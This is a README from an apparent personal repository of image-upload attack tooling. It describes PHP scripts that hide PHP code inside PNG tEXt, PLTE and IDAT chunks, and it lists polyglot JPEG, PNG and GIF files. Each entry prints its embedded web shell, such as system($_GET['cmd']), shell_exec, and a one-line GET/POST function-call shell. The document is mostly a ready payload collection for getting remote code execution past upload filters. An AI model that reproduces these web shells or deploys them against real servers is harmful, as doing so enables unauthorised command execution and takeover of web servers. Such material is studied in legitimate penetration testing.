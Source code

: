 # Image Upload Payloads and Scripts

This directory contains my payloads and scripts related to image upload vulnerabilities.

## Scripts

- **generate_tEXtPNG.php**  
  Takes 3 parameters: a PNG image, a PHP payload, and an output name.  
  Creates a new PHP file with a valid PNG structure that embeds the payload inside a custom `tEXt` chunk called `"synackt"`.

- **generatePLTE.php**  
  Takes 2 parameters: a PHP payload and an output name.  
  Creates a new PHP file with a valid PNG structure that hides the payload inside its palette (`PLTE`) instructions.

- **generateIDAT.php**  
  Very specific script.  
  Produces a `110x110` PNG image that, once resized to `55x55`, contains the exact PHP payload:  
  ```php
  <?=$_GET[0]($_POST[1]);?>

## Payloads

- **magicAd1Pixel.jpg**  
  A one-pixel JPEG image. With payload.  
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>

- **magicOnly.jpg**
  A minimal, magic-byte only JPEG image. With payload.
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($\_GET\['cmd']); ?>
  
- **PLTE1.png**
  A simple PNG image  with the payload in its PLTE section
  Generated by the PLTE script above.
  The image has an IHDR, PLTE, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo shell_exec($\_GET\['cmd']); ?>


- **commentAnd1Pixel.png**
  A one-pixel PNG image with the payload in its comment section
  Comment was added using exiftool
  The image has an IHDR, tEXtComment, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>  
  
  
  
- **realAndEnd.gif**
  A simple real GIF with the payload appended to its end
  - This wasn't tested and may not work due to unpredictable data before actual php code
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?> 
  
  
 - **minimal89.gif**
   A GIF consisting of only the GIF89a + payload
   It contains the following PHP payload inside:

   ```php
  <?php echo system($_GET['cmd']); ?> 
  
